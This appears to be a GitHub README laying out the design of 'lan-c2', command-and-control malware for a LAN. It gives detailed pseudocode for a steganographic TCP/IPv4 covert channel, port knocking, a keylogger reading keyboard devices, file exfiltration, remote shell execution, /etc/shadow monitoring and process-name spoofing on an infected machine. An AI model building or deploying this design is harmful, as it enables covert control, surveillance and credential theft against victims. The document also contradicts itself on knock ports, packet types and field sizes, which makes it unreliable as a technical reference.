


# lan-c2
A command and control program operating over a LAN

## Introduction 
This document explains how the command and control program is designed. The command and control program, C2 for short, consists of two entities: commander and victim. The commander controls the victim through a covert channel that uses a combination of networking stenography and normal TCP connection. It is assumed that the victim is already infected with sudo privilege. 

    1. Disconnecting from the victim. 
    2. Uninstalling the malware from the victim machine’s filesystem. 
    3. Starting a keylogger on the victim that saves every keystroke on a file saved on the victim’s filesystem and also displays every keystroke on the commander’s screen.
    4. Stopping the keylogger on the victim. 
    5. Transfering the keylog file from the victim’s filesystem to the commander’s filesystem.
    6. Transferring a binary or a text file from the victim’s filesystem onto the commander’s filesystem. 
    7. Transfering a binary or a text file from the commander’s filesystem onto the victim’s filesystem. 
    8. Watching a single binary or text file on the victim’s filesystem. 
    9. Watching a directory non-recursively on the victim’s filesystem. 
    10. Running Bash Shell commands on the victim’s machine. 
    11. Spoofing the process name of the malware on the victim.
    12. Using port knocking to establish a session between the commander and the victim.

The next subsection explains how the commander performs port knocking on the victim:

### Beacon Protocol
In order to establish a balance between performance and stealthiness, this C2 uses a hybrid approach where one part of communication is performed via a covert channel, and the other part is performed via regular TCP connections. The most critical part of the communication handling synchronization and control between the commander and the victim is performed via covert channels minimizing the probability of it being detected. And the functionality part of the communication, e.g., file transfer, file watching, etc., is performed over TCP to deliver an optimal performance.  

Once port knocking is completed, the commander and the victim communicate critical control and synchronization information via a series of half open TCP connections. In that, the commander sends a TCP SYN packet to a closed port on the victim, and the victim responds by sending a TCP RST+ACK packet. The following figure demonstrates how a half open TCP connection looks like: 

In the figure above, the TCP SYN packet is sent by the commander, and the TCP RST+ACK packet sent by the victim is not part of a normal TCP connection initiated by Linux’s networking stack, but rather they are raw packets crafted using libpcap library. 

The critical control and synchronization information meant to be exchanged between the commander and the victim are hidden in TCP\IPv4 packets’ fields using steganography. The next subsection explains how critical control and synchronization be hidden is encoded in TCP\IPv4 packets’ fields.

##### Beacon Field Overview
This C2 uses Sequence Number field and Window Size field of TCP in addition to IPv4’s Identification field. TCP’s Sequence Number field consists of thirty-two bits. These thirty-two bits are divided into three sections: Code Section, Options Section, and Port Section. Code Section is four bits long, Options section is twelve bits long, and Port Section is six-teen bits long. The Code Section is meant to represent what kind of operation is about to be performed on the victim, for example, starting the keylogger or watching a text file. Each operation has a corresponding unique number from the 2^4 = 16 available numbers, which can be represented using the four bits of the Code Section. At this time, Options Section has no use and is reserved for future use. Moreover, since the Port Section is six-teen bits long, it is enough to hold Transport Layer’s port numbers. As mentioned earlier, this program uses a combination of normal TCP and a covert channel to facilitate the communication between the command and the victim. The Port Section is used to hold a port number that is used to establish a normal TCP connection between the victim and the commander. Henceforth, this document refers to the Code Section, Options Section, and Port Section collectively as a Beacon Field. To sum up, the following figure demonstrates how the thirty-two bits of a Beacon Field are broken down into Code Section, Options Section, and Port Section:

As for IPv4’s Identification Field, it is used to hold a pseudo-randomly generated six-teen bit number, which is used to derive an encryption key that will be used to encrypt the value of the Beacon Field. The six-teen bit number that is embedded into IPv4’s Identification Field is given as an input into a mathematical function that transforms the six-teen bit number into a thirty-two bit number. This mathematical function uses a series of predefined and deterministic mathematical operations to transform the six-teen bit number into a thirty-two bit number. Henceforth, this document will refer to the mathematical function as the Scramble Function and the pseudo-randomly generated six-teen bit number as the Key. The thirty-two bit number returned by the Scramble Function is then XORed with the value of the Beacon Field. 

##### Port Knocking
The commander uses port knocking to let the victim know that it wishes to establish a covert channel. The commander sends four TCP SYN packets to ports 6666, 7777, 8888, and 6666 on the victim in the given order. Once the victim receives four UDP packets in the correct order, the victim starts listening for raw SYN TCP packets coming from the commander. The next section explains what “Beacon Protocol” is, and how it is used to facilitate the stenographic communication between the commander and the victim.    

##### TCP/IPv4 Stenography
TCP’s Sequence Number field is set to the encrypted value of the Beacon Field, and the Identification field of IPv4 is set to the Key. In addition, Cyclic Redundancy Check (CRC) of the encrypted Beacon Field is computed and stored in TCP’s Window Size field. The CRC function used must take a thirty-two bit number and return a six-teen bit number. Only the SYN flag is set, and all other fields are filled in as they would when constructing a regular TCP/IPv4 packet, and then the resulting packet is sent on wire. 

Please note, this stenography strategy relies on the fact that most operating systems assign random numbers to TCP’s Sequence Number and IPv4’s Identification. That is, IPv4’s Identification is indeed pseudo-randomly generated, and since the value placed in TCP’s Sequence Number is encrypted, it appears to be random. Therefore, both TCP’s Sequence Number and IPv4’s Identification appear random. 

##### TCP/IPv4 Stenography: Victim’s Side
Once the victim receives the handcrafted TCP/IPv4 packet from the commander, the victim decodes the TCP/IPv4 packet and processes. The victim extracts the value of IPv4’s Identification field and inputs it into the Scramble Function. Then, the victim XORes the thirty-two bit number returned by the Scramble Function with the value of TCP’s Sequence Number in order to decrypt the Beacon Field. Then, the victim breaks down the Beacon Field into Code Section, Options Section, and Port Section. The first four MSB bits belong to the Code Section, and the next twelve bits belong to the Options Section, and the remaining six-teen bits belong to the Port Section.    

The value of the Code section tells the victim what kind of operation the commander wishes to perform, and the value of the Port section tells the victim the port number the commander will use to carry out the desired operation over TCP. 

In response to the commander’s TCP SYN packet the victim crafts a TCP RST+ACK packet. The victim sets the value of its Code Section to the same value as the commander’s Code Section to acknowledge the operation the commander wishes to perform. If the victim sets its Code Section to any other value than the commander’s Code Section, it indicates failure to perform the operation the commander is asking for. Then the victim sets its Options Section to zero as there is no use for the Options Section at the moment. And finally the victim sets its Port Section to the port number the victim will use to perform the operation the commander has asked for. 

However, the encryption process of Beacon Field at the victim’s side is a bit different than that of the commander’s. The victim adds the value of the commander's IPv4 Identification packet with the value of the commander’s Sequence Number and takes the modulus of two to the power of six-teen to drive its Key instead of pseudo-randomly generating the Key. The following is the formula the victim uses to derive its Key: 

(IPv4.Identification:16-bit + TCP.Sequence_Number:32-bit ) % 2^16 = Victim’s Key:32-bit

Then the victim puts its Key into the same Scramble Function used by the commander to derive a thirty-two bit number that will be XORed with the victim’s Beacon Field. The encrypted value of the victim’s Beacon Field is stored in TCP’s Sequence Number, and IPv4’s Identification field is set to the same value as the commander packet’s IPv4 Identification field. The same CRC function is used on the commander’s side to compute the checksum of the encrypted Beacon Field, and the checksum computed is stored in TCP’s Window Size field. Only the RST and ACK flags are set, and all other fields are filled in as they would when constructing a regular TCP/IPv4 packet, and then the resulting packet is sent on wire. 

##### TCP/IPv4 Stenography: Commander’s Side
When Commander receives the victim’s TCP RST+ACK packet, it derives the victim's Key by using the same formula the victim used to drive the victim's Key. The commander inputs the victim's Key into the Scramble Function and XORes the thirty-two bit number returned by the Scramble function with the victim’s Sequence Number. The commander breaks down the victim’s decrypted Beacon Field into the Code Section, Options Section, Port Section. If the victim's Code Section has the same value as the commander’s Code Section, it implies everything went well and the Commander establishes a normal TCP connection with the victim using the ports specified in the commander’s and the victim’s Port Section values. The following figures demonstrate this process:

##### Networking Components 
Both the victim and the commander have one Sender Component, one Receiver Component, and one Controller Component. The Sender Component is responsible for sending packets to the other side. The Receiver Component is responsible for receiving packets from the other side. And the Controller Component is responsible for packet processing logic of the victim or the commander. The Controller Component uses the Receiver Component to get packets from the other side, processes the packets and uses the Sender Component to send response packets to the other side accordingly. Sender Component, Receiver Component, and Controller Component are all run in separate threads concurrently to ensure one component does not impede another component. The following figure gives a high-level picture of how all the aforementioned components work together: 

##### High Level Beacon Protocol Logic: Commander
The following figure gives a detailed picture of how Beacon Protocol works from the commander’s side: 

##### High Level Beacon Protocol Logic: Victim
The following figure gives a detailed picture of how Beacon Protocol works from the victim side: 

##### High-level Hybrid Model Example
The following figure gives a high-level example of how an operation can be performed using a combination of Beacon Protocol and regular TCP. The commander asks the victim to perform a file transfer from the commander to the victim, which is performed using the Beacon Protocol (i.e., the asking part is done over Beacon Protocol). And the actual file transfer is done via regular TCP as follows: 

##### Beacon Field: Code Section
Code section is 8 bits long and can take the following values where each value is the symbolic representation of an unique integer within 2^4 = 16 number space:

| Code Value             | Code Value Explanation                                                                 |
|------------------------|----------------------------------------------------------------------------------------|
| StartNodeWatchCode     | Tells the victim to start watching a file or a directory.                              |
| StartKeyLoggerCode     | Tells the victim to start the keylogger.                                               |
| UninstallCode          | Tells the victim to remove the malware from its file system.                           |
| DiscCode               | Tells the victim to end the session and go back to listening for port knocks.          |
| TransferKeylogCode     | Tells the victim to transfer the keylog file of captured keystrokes during keylogging to the commander if one exists. |
| SendFileCode           | Tells the victim that the commander wishes to copy a file from the commander’s filesystem to the victim’s filesystem. |
| RecvFileCode           | Tells the victim that the commander wishes to copy a file from the victim’s filesystem to the commander’s filesystem. |
| RunShellCode           | Tells the victim that the commander wishes to run a remote shell.                      |
| CrptdPktCode           | Victim sends this packet if checksum validation fails.                                 |
| InvalidPktCode         | Victim sends this packet if the commander’s packet passes the checksum validation, but there is something wrong with it. |

##### Beacon Protocol Pseudocode: Common Functionality 
TYPE Beacon{
	Code: 4-bits
	Options: 12-bits
	Port: 16-bits
}

FUNCTION makeSYNPkt(CommanderBeacon){
	CommanderKEY = random 16-bit integer
	encryptedCommanderBeacon = Scramble(CommanderKEY) XOR CommanderBeacon
checksum = CRC16(encryptedCommanderBeacon)  
CommanderIPv4.Identification = KEY
CommanderTCP.SequenceNumber = encryptedCommanderBeacon
CommanderTCP.WindowSize = checksum
CommanderTCP.Flags = SYN
return CommanderTCP/IPv4
}

FUNCTION makeRSTACKPkt(VictimBeacon, CommanderTCP/IPv4){
	VictimKEY = CommanderIPv4.Identification + CommanderTCP.SequenceNumber % 2^16
	encryptedVictimBeacon = Scramble(VictimKEY) XOR VictimBeacon
	checksum = CRC16(encryptedCommanderBeacon)  
VictimIPv4.Identification = CommanderIPv4.Identification 
VictimTCP.SequnceNumber = encryptedVictimBeacon
VictimTCP.WindowSize = checksum
VictimTCP.AckNumber = CommanderTCP.SequenceNumber + 1
VictimTCP.Flags = RST | ACK
return VictimTCP/IPv4
}

##### Beacon Protocol Pseudocode: Commander Functionality 
FOR every user selection{
	commanderPort = random unused port number
CommanderBeacon.Code = user selected operation code
CommanderBeacon.Options = 0
CommanderBeacon.Port = commanderPort
CommanderTCP/IPv4 = makeSYNPkt(CommanderBeacon)
sendOnWire(CommanderTCP)
VictimTCP/IPv4 = receiveOnWire()
IF receiveOnWire() timed out:
	continue 
checksum = VictimTCP.WindowSize 
IF checksum != CRC16(VictimTCP.SequenceNumber):
	continue
VictimKey  =  CommanderTCP.SequenceNumber + CommanderIPv4.Identification % 2^16
VictimBeacon = VictimTCP.SequenceNumber XOR VictimKey
IF VictimBeacon.Code != CommanderBeacon.Code:
	continue
	victimPort =  VictimBeacon.Port
handleOperationOverTCPCommander(operationCode, commanderPort, victimPort)
}

##### Beacon Protocol Pseudocode: Victim Functionality 
FOR every packet received on wire{
	IF packet not from commander’s MAC, IP, and Port:
		continue 
	checksum = CommanderTCP.WindowSize
	IF checksum != CRC16(CommanderTCP.SequenceNumber):
		victimCode = CrptdPktCode
	commanderKey = CommanderIPv4.Identification 
commanderBeacon = Scramble(commanderKey) XOR CommanderTCP.SequenceNumber
commanderPort = commanderBeacon.Port
IF victimCode no set:
	victimCode = commanderBeacon.code
victimPort = random unused port number
VictimBeacon.Code = victimCode
VictimBeacon.Options = 0
VictimBeacon.Port = victimPort
VictimTCP/IPv4 = makeRSTACKPkt(VictimBeacon, CommanderTCP/IPv4)
sendOnWire(victimCode)
STOP previous operation if any
WAIT a few seconds for commander to catch up
handleOperationOverTCPVictim(operationCode, commanderPort, victimPort)
}

##### Port Knocking Pseudocode: Commander 
Send TCP SYN packet to victim IPv4 on port 6000
Wait for one second
Send TCP SYN packet to victim IPv4 on port 7000
Wait for one second
 Send TCP SYN packet to victim IPv4 on port 8000
Wait for one second
Send TCP SYN packet to victim IPv4 on port 6000
Wait for one second

##### Port Knocking Pseudocode: Victim
FOR true{
Sniff for a TCP SYN packet originating from commander’s IPv4 and port an destined for port 6000
Sniff for a TCP SYN packet originating from commander’s IPv4 and port an destined for port 7000 for thirty seconds
IF timed out:
	continue 
Sniff for a TCP SYN packet originating from commander’s IPv4 and port an destined for port 8000 thirty seconds
IF timed out:
	continue 
Sniff for a TCP SYN packet originating from commander’s IPv4 and port an destined for port 6000 thirty seconds 
IF timed out:
	continue 
ELSE:
break
}

#### Networking
##### Receiver Component Finite State Machine

#### Sender Component Finite State Machine

#### Networking Types
| Type Name        | Type Explanation                                                                                                                                                                                                                       |
|------------------|----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Route            | Represents the network route from one side to the other. It includes all information needed to send and receive packets to and from the other side. It includes network adaptor name, source and destination MAC addresses, source and destination IPv4 addresses, and source and destination port numbers. |
| ReceiverOutput   | The type the **Receiver Component** sends to the **Controller Component**. It contains an inbound TCP/IPv4 packet, an error message if an error occurred, and a flag that tells whether the error encountered is a recoverable error. If the error encountered is not a recoverable error, the whole system must shutdown. |
| SenderOutput     | The response the **Sender Component** produces upon sending an outbound packet. It contains an error if one encountered, and a flag that tells whether the error encountered is recoverable or not. If the error encountered is not a recoverable error, the whole system must shutdown. |
| ReceiverParams   | The parameters the **Receiver Component** needs to function. It includes a Route type, and an object that facilitates communication with the **Controller Component**.                                                                 |
| SenderParams     | The parameters the **Sender Component** needs to function. It includes a Route type, and an object that facilitates communication with the **Controller Component**.                                                                 |

type Route{
    Iface: Network adaptor of host.
    SrcMAC: MAC address of of network adaptor of host
    DstMAC: MAC address of network adaptor of peer	
    SrcIP: IPv4 address assigned to network adaptor of host 	 
    DstIP: IPv4 address assigned to network adaptor of peer  	
    SrcPort: Port number number of host service 
    DstPort: Port number number of peer service 
}

type ReceiverOutput{
	Error: Error encountered
	Recoverable: boolean
	IPv4: IPV4 layer
	TCP: TCP layer
}

type SenderOutput{
	Error: Error encountered
	Recoverable: boolean
}

##### Receiver Component Pseudocode

BPFFilter = “ip and tcp and src host Route.DstIP and dst host Route.SrcIP and src port Route.DstIP and dst port Roue.SrcIP and ip[4:2] != 0 and “
IF is commander:
	BPFFilter += “(tcp[13] = 0x14 and tcp[8:4] != 0)”
ELSE IF is victim:
	BPFFilter += “(tcp[13] = 0x2)”

apply BPFFilter
if failed:
	ReceiverOutput.Error 
	ReceiverOutput.Recoverable = false
	return ReceiverOutput
sniff for inbound packets on Route.Iface
IF failed:
	ReceiverOutput.Error 
	ReceiverOutput.Recoverable = false
	return ReceiverOutput
FOR each inbound packet:
	extract IPv4 layer
	extract TCP layer
IF failed to extract TCP or IPv4:
	ReceiverOutput.Error 
	ReceiverOutput.Recoverable = false
	return ReceiverOutput
ELSE:
	ReceiverOutput.IPv4 = IPv4
	ReceiverOutput.TCP = TCP 
	return ReceiverOutput

##### Sender Component Pseudocode
FOR each partial packet from the Controller:
	auto-fill empty fields
	stack Ethernet, IPv4, and TCP layers
	sent packet on wire
	IF failed to send:
		SenderOutput.Error 
		SenderOutput.Recoverable = false
		return SenderOutput
	ELSE:
		return SenderOutput
		
	
#### File Watching and File Transfer 
##### File Transfer Pseudocode Finite State Machine: Send File

##### File Transfer Pseudocode Finite State Machine: Receive File

##### Inode Watching Finite State Machine: Victim

##### Inode Watching Finite State Machine: Commander

##### Shadow File Watching Finite State Machine

##### Types
| Type Name    | Type Explanation                                                                                                                                          |
|--------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------|
| FileHeader   | Stores Metadata about a file that is sent before the actual file content during a file transfer. It contains the name and size of the file.              |
| EventHeader  | A structure that represents a single inode change. It includes inotify Event, size of the inode, and a flag telling whether the inode is a directory or a file. |

type FileHeader{
	Name: string
	Size: 64-bit integer
}

type EventHeader{
	Event: fnotify.Event
	Size: 64-bit integer
	IsDirectory: boolean
}

##### Common Network Transfer Pseudocode
FUNCTION netWrite(TCPConnection, Object){
	ObjectJSONBytes = convertToJSONBytes(Object)
	IF failed:
		return Error
	ObjectJSONBytesLength = length(ObjectJSONBytes)
	writeToTCP(TCPConnection, ObjectJSONBytesLength)
	IF failed:
		return Error
writeToTCP(ObjectJSONBytes, ObjectJSONBytesLength)	
IF failed:
		return Error
}

FUNCTION netRead(TCPConnection) Object{
	ObjectJSONBytesLength = readFromTCP(TCPConnection)
IF failed:
		return Error
	JSONbytesBuffer = allocateBytes(ObjectJSONBytesLength)
 readFromTCP(TCPConnection, JSONbytesBuffer)
	IF failed:
		return Error
	Object = convertJSONToType(JSONbytesBuffer)
	IF failed:
		return Error
	return Object
}

##### File Transfer Pseudocode
FUNCTION sendFile(TCPConnection, path){
	IF path is directory:
return Error
 FileHeader.Size = fileSize(path)
FileHeader.Name = baseName(path)
netWrite(TCPConnection, FileHeader)
IF failed:
	return Error
copyAllFileBytes(TCPConnection, path)
IF failed:
	return Error
}

FUNCTION receiveFile(TCPConnection, parentDirectoryPath){
	FileHeader = netRead(TCPConnection) 
	If failed:
		return Error
	newPathFile = joinFilePath(parentDirectoryPath, FileHeader.Name)
	fileHandle = CreateFileOnDisk(newPathFile)
	If failed:
		return Error
	
	copyFirstNBytes(fileHandle ,TCPConnection, receiveFile.Size)
	IF failed:
		return Error
}

##### Inode Watching Pseudocode: Victim
FUNCTION watchInodeVictim(TCPConnection){
	inodePath = netRead(TCPConnection) 
	If failed:
		return Error
	watcherHandle = inotify.NewWatcher()
	IF failed:
		return Error
	watcherHandle.Add(inodePath)
	IF failed:
		return Error
	FOR every event of watcherHandle:
			EventHeader.Event = event
			EventHeader.Size = length(inodePath)
			
		IF inodePath is directory:
EventHeader.Isdirectory = true
		ELSE IF inodePath is a file:
			EventHeader.Isdirectory = false
netWrite(TCPConnection, EventHeader)
IF failed:
	return Error
copyAllFileBytes(TCPConnection, path)
IF failed:
	return Error
}

##### Inode Watching Pseudocode: Commander
FUNCTION watchInodeCommander(TCPConnection, watchPath,  parentDirectoryPath){
	netWrite(TCPConnection, watchPath)
IF failed:
	return Error
	WHILE Inode Watch not Stopped{
		EventHeader = netRead(TCPConnection)
		IF failed:
			return Error
		print(EventHeader.Event)
		IF HeaderEvent.IsDirectory{
			Print(EventHeader.Event)
		} ELSE IF NOT HeaderEvent.IsDirectory{
Print(EventHeader.Event)
		newPathFile = joinFilePath(parentDirectoryPath, FileHeader.Name)
	fileHandle = CreateFileOnDisk(newPathFile)
	If failed:
		return Error
	copyFirstNBytes(fileHandle ,TCPConnection, receiveFile.Size)
	IF failed:
		return Error
		}
}
}

##### Inode Watching Pseudocode: Shadow File
processShadowFileVictim(){
previousHash = ComputeHash(“/etc/shadow”)
FOR every time interval:
currentHash = ComputeHash(“/etc/shadow”)
IF currentHash != previousHash:
 previousHash = currentHash
 writeToFile(“tmp/shadow”, currentHash)
}

processShadowFileCommander(TCPConnection, parentDirectory){
	watchInodeCommander(TCPConnection, “/tmp/shadow”, parentDirectoryPath)
	IF failed:
		return Error	
}

#### Keylogger
##### Keylogger Finite State Machine

##### Keylogger Pseudocode
FUNCTION findKeyboardDevices(){
	keyboardDevices  = emptyList
	FOR every file under /sys/class/input/ directory:
		extract base name
		devicePath = joinPath(“/dev/input”, baseName)
		realPath = evaluatesymbolicLink(devicePath)
		keyPath = joinPath(realPath, “capabilities/key”)
		IF hasKeybit(keyPath):
			keyboardDevices.append(devicePath)
	return keyboardDevices
}

FUNCTION logKeyStroke(keylogBuffer){
	keyboardDevices = findKeyboardDevices()
	IF keyboardDevices is empty:
		return
	FOR each devicePath of keyboardDevices RUN in separate thread:
		WHILE keylogger not stopped:
			binaryToken = readBinaryFile(devicePath)
			IF binaryToken is a key press:
				keyStroke = convertToReadableFormat(binaryToken)
				writeToBuffer(keylogBuffer, keyStroke)
				IF failed:
					return Error
}

#### Command Line Interface
##### Command Line Interface Finite State Machine 

#### System Wide Design 
##### System Wide States: Commander
| Commander State        | Commander State Explanation                                                                                                                   |
|------------------------|--------------------------------------------------------------------------------------------------------------------------------------------------|
| START                  | The starting state of the commander.                                                                                                            |
| StartedAsRoot          | When the commander is executed with sudo privileges.                                                                                           |
| RouteInfoReceived      | When all the routing information supplied to the commander regarding its MAC address, IPv4 address, service port, and network adapter and that of the victim is valid. |
| CLIStarted             | When the command line interface is started, the user can interact with it.                                                                     |
| ControllerStarted      | When the Controller Component of the commander is started.                                                                                      |
| ReceiverStarted        | When the Receiver Component of the commander is started.                                                                                       |
| SenderStarted          | When the Sender Component of the commander is started.                                                                                         |
| SelectedToExecute      | When the user selects an operation to perform on the victim through the CLI.                                                                   |
| RandomPortSelected     | When a random port is randomly selected on the commander’s side to be used for the TCP connection, which will be used to carry out the operation selected by the user. |
| IPv4TCPPktCreated      | When the TCP/IPv4 packet containing steganography encoded information is created.                                                               |
| IPv4TCPPktSent         | When the TCP/IPv4 packet is sent on wire.                                                                                                       |
| ResponsePktReceived    | When the response packet of the victim is received by the commander.                                                                            |
| VictimCodeExtracted    | When the operation code sent by the victim is extracted from the TCP/IPv4 packet sent by the victim.                                            |
| VictimCodeSame         | When the operation code sent by the victim is the same as the operation code sent by the commander.                                            |
| VictimPortExtracted    | When the victim port embedded in the TCP/IPv4 is extracted and stored.                                                                         |
| TCPConnectionEstablished | When the TCP connection between the victim’s random port and the commander’s random port is established.                                      |
| OperationOver          | When the operation selected by the user is completely carried out over the TCP connection and is over.                                         |
| CommanderStopped       | When the commander is stopped by the user.                                                                                                      |
| END                    | The end phase of the commander.                                                                                                                 |

##### System Wide States: Victim
| Victim State           | Victim State Explanation                                                                                                                         |
|------------------------|---------------------------------------------------------------------------------------------------------------------------------------------------|
| START                  | The starting state of the victim.                                                                                                                |
| SudoPrivilege          | When the victim is run with sudo privileges.                                                                                                     |
| RouteInfo              | When all the routing information supplied to the victim regarding its MAC address, IPv4 address, service port, and network adapter and that of the commander is valid. |
| ControllerStarted      | When the **Controller Component** of the victim is started.                                                                                      |
| ReceiverStarted        | When the **Receiver Component** of the victim is started.                                                                                        |
| SenderStarted          | When the **Sender Component** of the victim is started.                                                                                          |
| ReceivedPkt            | When the commander’s TCP/IPv4 packet is received by the victim.                                                                                  |
| CodeExtracted          | When the operation code the commander sent has been extracted from the TCP/IPv4 packet.                                                          |
| CommanderPortExtracted | When the port the commander has specified has been extracted from the TCP/IPv4 packet sent by the commander.                                     |
| RandomPortSelected     | When an unused random port is chosen by the victim.                                                                                              |
| ResponsePktMade        | When the victim’s TCP/IPv4 response to the commander with steganography encoded information is made.                                             |
| ResponsePktSent        | When the victim’s TCP/IPv4 packet is sent on wire.                                                                                               |
| TCPEstablished         | When the TCP connection between the victim’s random port and the commander’s random port is established.                                         |
| OperationOver          | When the operation selected by the commander is completely carried out over the TCP connection and is over.                                      |
| CommanderStopped       | When the victim is stopped by the commander or is stopped by IDS.                                                                                |
| END                    | The end phase of the victim.                                                                                                                     |

##### System Wide State Transition Table: Commander
| From State           | To State              |
|----------------------|------------------------|
| START                | SudoPrivilege          |
| SudoPrivilege        | RouteInfoValid         |
| RouteInfoValid       | CLIStarted             |
| CLIStarted           | ControllerStarted      |
| ControllerStarted    | ReceiverStarted        |
| ReceiverStarted      | SenderStarted          |
| SenderStarted        | GotUserSelection       |
| GotUserSelection     | RandomPortSelected     |
| RandomPortSelected   | IPv4TCPPktMade         |
| IPv4TCPPktMade       | IPv4TCPPktSent         |
| IPv4TCPPktSent       | ResponsePktReceived    |
| ResponsePktReceived  | VictimCodeExtracted    |
| VictimCodeExtracted  | VictimCodeSame         |
| VictimCodeSame       | VictimPortSelected     |
| VictimPortSelected   | TCPEstablished         |
| TCPEstablished       | OperationOver          |
| OperationOver        | CommanderStopped       |
| OperationOver        | GotUserSelection       |
| CommanderStopped     | END                    |

##### System Wide State Transition Table: Victim
| From State             | To State                |
|------------------------|-------------------------|
| START                  | SudoPrivilege           |
| SudoPrivilege          | RouteInfo               |
| RouteInfo              | ControllerStarted       |
| ControllerStarted      | ReceiverStarted         |
| ReceiverStarted        | SenderStarted           |
| SenderStarted          | ReceivedPkt             |
| ReceivedPkt            | CodeExtracted           |
| CodeExtracted          | CommanderPortExtracted  |
| CommanderPortExtracted | RandomPortSelected      |
| RandomPortSelected     | ResponsePktMade         |
| ResponsePktMade        | ResponsePktSent         |
| ResponsePktSent        | TCPEstablished          |
| TCPEstablished         | OperationOver           |
| OperationOver          | ReceivedPkt             |
| OperationOver          | CommanderStopped        |
| CommanderStopped       | END                     |

##### System Wide State Transition Diagram: Commander

##### System Wide State Transition Diagram: Victim

## Testing
| NO. | Test Case Description                                                                 | Expected Outcome                                                                                                                                      |
|-----|----------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------|
| 1   | Watch a file for permission change                                                    | The commander should be able to see that the permissions of a file have changed.                                                                      |
| 2   | Watch a file for content change                                                       | The commander should notice that a change has been made, but not what the change is exactly.                                                          |
| 3   | Watch a file for renaming/relocation                                                  | The system should print an error message saying the file being watched does not exist since the name of the file was changed. System stays operational.|
| 4   | Watch a file for deletion                                                              | The commander should notice file detection.                                                                                                            |
| 5   | Watching a non-existent file                                                           | The system should produce an error message and not crash. The system should stay operational.                                                         |
| 6   | Saving file changes under a non-existent directory                                     | The system should produce an error message and not crash. The system should stay operational.                                                         |
| 7   | Watch a directory for content change                                                   | The commander should notice that an inode within the directory has been altered.                                                                      |
| 8   | Watch a directory for permission change                                                | The commander should notice permission changes on the directory.                                                                                      |
| 9   | Watch a directory for rename/relocation                                                | The system should produce an error saying the directory does not exist as it was renamed.                                                             |
| 10  | Watch a directory for content deletion                                                 | The commander should notice deletion of the directory.                                                                                                |
| 11  | Watching a non-existent directory                                                      | The system should produce an error message and not crash. The system should stay operational.                                                         |
| 12  | Keylogging all keys on a keyboard                                                      | Should capture all keys on the keyboard when pressed.                                                                                                 |
| 13  | Transferring Keylog file                                                               | Should transfer the keylog file to the desired location on the commander’s filesystem just fine.                                                      |
